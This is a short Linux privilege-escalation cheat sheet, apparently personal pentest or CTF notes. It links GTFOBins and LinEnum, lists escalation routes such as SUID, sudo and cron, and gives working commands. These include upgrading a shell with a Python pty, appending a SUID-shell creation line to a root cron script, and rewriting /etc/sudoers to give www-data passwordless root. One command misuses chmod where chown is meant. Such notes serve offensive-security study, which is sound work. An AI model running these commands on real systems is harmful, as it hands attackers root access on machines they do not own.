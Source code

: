 # GTFOBin

https://gtfobins.github.io/

## LinEnum

https://github.com/rebootuser/LinEnum

## Restricted shell Bypass

https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf


Linux Privilege escalation
==========================

A typical Linux privilege escalation method is based on one of the following:

1. Exploiting services running as root
2. Exploiting SUID executables
3. Exploiting SUDO rights/user
4. Exploiting badly configured cron jobs
5. Exploiting users with "." in their path
6. Kernel Exploits

Kernel exploits are typically our last resort, as there is a risk that we crash the system in the process.

***1. Command to get bash shell from $***

$ python -c 'import pty; pty.spawn("/bin/bash");'  
user@machine:

## Double charcters

I'm guessing both terminals had stty echo, so you probably needed to Ctrl-Z and stty -echo on your local terminal and bg to get back to the remote shell.

**2. Identifcation methods**
1. Check su privileged files

2. Check cronjobs
cd /etc/cron* - Check all the folders

3. Check the programs avilable in the machine

which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/nul

**3. Using vulnerable cronjob running in root**

echo "cp /bin/dash /tmp/exploit; chmod u+s /tmp/exploit;chmod root:root /tmp/exploit">>/usr/local/sbin/cron-logrotate.sh

**4. Modifying sudoers file and provide nopasswd access for a low privileged user**

echo ‘chmod 777 /etc/sudoers && echo “www-data ALL=NOPASSWD: ALL” >> /etc/sudoers && chmod 440 /etc/sudoers’ > /tmp/update

**5. Command to writable directories in the restrictive shell**

find / -type d \( -perm -g+w -or -perm -o+w \) -exec ls -adl {} \;

